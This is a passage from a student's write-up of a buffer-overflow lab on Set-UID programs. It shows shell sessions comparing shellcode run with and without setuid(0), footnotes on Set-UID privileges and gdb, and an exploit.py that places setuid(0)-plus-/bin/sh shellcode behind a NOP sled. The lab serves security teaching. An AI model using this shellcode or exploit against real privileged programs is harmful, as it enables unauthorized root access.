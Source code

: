```console
root
# exit
```

Without the <code>setuid()</code> system call:

```console
~Documents/BufferSetUID/shellcode$ gcc -z execstack -o call_shellcode call_shellcode.c
~Documents/BufferSetUID/shellcode$ ./call_shellcode
$ whoami
seed
$ echo On the Bonnie Bonnie Banks of Loch Lomond
On the Bonnie Bonnie Banks of Loch Lomond
$ exit
~Documents/BufferSetUID/shellcode$ ./a32.out
$ whoami
seed
$ echo On the steep steep side of Ben Lomond
On the steep steep side of Ben Lomond
$ exit
~Documents/BufferSetUID/shellcode$ ./a64.out
$ whoami
seed
$ echo Ye'll take the high road and I'll take the low road
Yell take the high road and Ill take the low road
$ exit
```

We can tell according to the different results from the <code>whoami</code> command that with the <code>setuid()</code> system call real UID is changed to zero and the program is owned by root.

Based on this knowledge, to redo [Task 3](#task-3-launching-attack-on-32-bit-program-level-1), I modified the shellcode block of <code>exploit.py</code>:

```python
!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0"
  "\x31\xdb"
  "\xb0\xd5"
  "\xcd\x80"
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
```

[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.